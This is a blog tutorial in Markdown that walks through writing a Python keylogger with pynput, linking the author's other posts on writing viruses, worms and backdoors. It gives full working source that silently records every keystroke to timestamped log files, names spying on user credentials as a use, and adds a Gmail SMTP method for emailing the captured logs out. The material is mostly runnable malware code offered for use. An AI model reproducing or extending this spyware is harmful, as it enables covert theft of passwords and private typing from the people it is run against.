 ```yaml
---
layout: single
title: "A Basic Keylogger in Python"
header:
  image: "https://live.staticflickr.com/65535/51211036232_6916bf5c10_c.jpg"
  teaser: "https://live.staticflickr.com/65535/51211036232_6916bf5c10_c.jpg"
categories:
  - Security
tags:
  - Python
  - Tutorial
  - Keylogging
  - Keylogger
  - Trojan Horse
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```



Keylogger is a simple yet effective program that can monitor a person's keyboard activities. It can be used to spy on a person's data (browsing activities, user credentials, etc.) or to monitor children activities.

It can be designed to store all keystrokes activities in a local log file or can be sent via email depending on how it is designed.

In this tutorial, we will see how to write a simple keylogger in python so that we understand the underlying theme of how it works. If you are interested to write other types of malwares, you can look into my previous posts:
* [Write a Simple Virus in Python](https://shantoroy.com/security/write-a-virus-in-python/)
* [Write a Worm (Malware) in Python](https://shantoroy.com/security/write-a-worm-malware-in-python/)
* [Write a Backdoor in Python](https://shantoroy.com/security/simple-backdoor-using-python/)


## Requirements
First, we need to install the module [pynput](https://pynput.readthedocs.io/en/latest/index.html). This module is used to control and monitor `keyboard` or `mouse/trackpad` activities.
```
$ pip install pynput
```

Now, for our simple program, we import the following modules

```python
from pynput.keyboard import Key, Listener
import  logging
import  os
from  datetime  import  datetime
```

## Writing a Keylogger Class
Let's create a keylogger class that contains all the methods we need to perform keylogger activities.

First, we need to create a directory that will contain our log files. We create a subdirectory named `log` in the current directory (from where we are running the script) if does not exist.

```python
class Keylogger:
     
    def create_log_directory(self):
        sub_dir = "log"
        cwd = os.getcwd()
        self.log_dir = os.path.join(cwd,sub_dir)
        if not os.path.exists(sub_dir):
            os.mkdir(sub_dir)
```

Next we create a static method that returns key information if a key is pressed. We need this function for later use.

```python
    @staticmethod
    def on_press(key):
        try:
            logging.info(str(key))
        except Exception as e:
            logging.info(e)
```

Finally, we need to report the keystroke information in a file. We create a text file and name with the current time as a prefix so that the program creates a new file each time it is run with a new filename. Also, we need to configure how we want the information to be stored in the log file using `logging.basicConfig` format. And then we use the `Listener` method to track keystroke information where we pass our previous static method as a callback.
```python
    def write_log_file(self):
        # time format example: '2021-05-29-171747'
        time = str(datetime.now())[:-7].replace(" ", "-").replace(":", "")
        # logging info in the file
        logging.basicConfig(
                 filename=(os.path.join(self.log_dir, time) + "log.txt"),
                 level=logging.DEBUG, 
                 format= '[%(asctime)s]: %(message)s',
             )
        
        with Listener(on_press=self.on_press) as listener:
            listener.join()
```

## Running the Script
Let's create the main function where we create an object of the `Keylogger` class, and then call the methods one after another.

```python
if  __name__ == "__main__":
	klog = Keylogger()
	klog.create_log_directory()
	klog.write_log_file()
```

Note that, while writing the code, I could avoid creating a class and use the methods as basic python functions. However, it is better to use classes so that you can add other functionalities when you need in the future.

Now, run the script from the terminal and check the created log files.
```sh
$ python keylogger.py
```

The whole is available [here](https://github.com/shantoroy/intro-2-cybersecurity-in-python/blob/master/keylogger/keylogger.py).

## Other Functionalities
You can add more functionalities, for example sending the logs via email or the log file as email attachments. 
```python
    def send_mail(self, email, password, TO, msg):
        with smtplib.SMTP("smtp.gmail.com", 587) as server:
            try:
                server.starttls()    # enable secure TLS mode
                server.login(email, password)
                server.sendmail(email, TO, msg)
            except Exception as e:
                pass
            finally:
                server.quit()
```
I will post details on how to send message via email or send an attachment with email in a seperate post.

That's it! Thanks for being with me. Cheers!

If this post helps you to solve your problem, and you want to thank/support me for that, you can  [Buy me Coffee](https://www.paypal.me/shantoroy). :smiley:

## References
* [pynput: Handling the keyboard](https://pynput.readthedocs.io/en/latest/keyboard.html)
* [Design a Keylogger in Python](https://www.tutorialspoint.com/design-a-keylogger-in-python)
* [How to Make a Keylogger in Python](https://www.thepythoncode.com/article/write-a-keylogger-python)
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTc3NjExMTgzMywtMTM2OTg2NTg2LDE3OT
E2NTU2MzgsLTE2NDc4MzE0OCwtNzQzNzk1MDc4LDEzMDIzMzE4
MzZdfQ==
-->